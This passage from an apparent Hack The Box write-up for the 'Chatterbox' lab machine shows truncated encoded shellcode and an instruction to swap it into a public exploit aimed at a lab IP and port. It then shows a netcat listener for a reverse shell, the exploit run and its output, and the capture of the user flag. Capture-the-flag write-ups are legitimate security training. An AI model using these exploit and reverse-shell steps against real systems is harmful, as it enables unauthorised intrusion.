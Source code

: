 ```text
buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
......[truncated]
```

The payload size is 774 bytes, so within the limit. Copy the payload and add it in place of the payload included in the exploit. Also change the IP address to Chatterbox’s IP address.

```text
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256)
```

Then setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 1234
```

Run the exploit.

```text
root@kali:~/Desktop/htb/chatterbox# python 36025.py 
---->{P00F}!
```

We get a shell!

![](../images/max/882/1*XK-pIFAJyBDZVuw7RA4MSQ.png)

Grab the _user.txt_ flag.

![](../images/max/611/1*AxvyV0VE64vlTeih-UKZIA.png)

We’re running as a low privileged user, so we’ll need to escalate privileges.

## Privilege Escalation <a id="ff1c"></a>
